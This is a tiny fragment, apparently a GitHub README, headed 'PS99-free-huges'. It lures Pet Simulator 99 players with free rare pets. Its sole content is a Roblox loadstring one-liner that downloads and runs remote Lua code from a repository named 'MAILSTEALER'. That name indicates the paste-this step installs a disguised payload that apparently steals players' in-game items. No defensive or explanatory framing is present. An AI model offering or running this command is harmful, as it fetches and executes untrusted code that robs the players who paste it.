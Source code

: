 # PS99-free-huges loadstring(game:HttpGet("https://raw.githubusercontent.com/POGGERZ15/MAILSTEALER/main/Main.lua"))()
